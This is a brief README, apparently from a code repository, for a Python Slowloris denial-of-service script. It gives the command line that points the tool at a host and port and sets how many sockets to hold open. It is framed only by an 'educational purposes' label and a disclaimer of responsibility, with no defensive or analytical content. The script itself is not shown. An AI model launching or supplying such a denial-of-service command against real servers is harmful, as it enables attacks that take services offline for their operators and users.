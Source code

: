 # Simple Slow Loris DDoS: For Educational Purposes Only

Just right the command specifiying the URL, Port, Number of Scokets to open, and Timer Period in Seconds:
```
python slowloris.py www.example.com 80 100 10
# here 80 is the port number
# 100 is total number of socket to create
# 10 is the timer period to check for open socket and create any

```

Use with caution, the auther is not responsible for any damages cause by this CODE


